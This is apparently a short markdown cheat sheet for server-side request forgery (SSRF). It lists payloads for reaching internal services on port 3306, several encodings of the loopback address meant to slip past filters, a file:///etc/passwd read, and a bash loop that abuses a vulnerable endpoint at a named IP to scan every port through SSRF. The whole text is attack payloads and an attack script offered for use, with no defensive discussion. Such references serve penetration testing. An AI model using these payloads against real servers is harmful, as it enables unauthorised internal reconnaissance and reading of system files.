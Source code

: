 ```yaml
---
layout: post
title: "ssrf"
keywords: "ssrf, server side request forgery"
---
```

#### Detection
```
http://127.0.0.1:3306
http://localhost:3306
http://0.0.0.0:3306
```

#### Filter Evasion
```
http://[::]:3306
http://:::3306

http://2130706433:3306
http://0x7f000001:3306
```

#### Read File
```
file:///etc/passwd
```

#### Bash Port Scanner
```
for x in {1..65535};
    do cmd=$(curl -so /dev/null http://10.10.122.186:8000/attack?url=http://2130706433:${x} \
        -w '%{size_download}');
    if [ $cmd != 1045 ]; then
        echo "Open port: $x"
    fi
done
```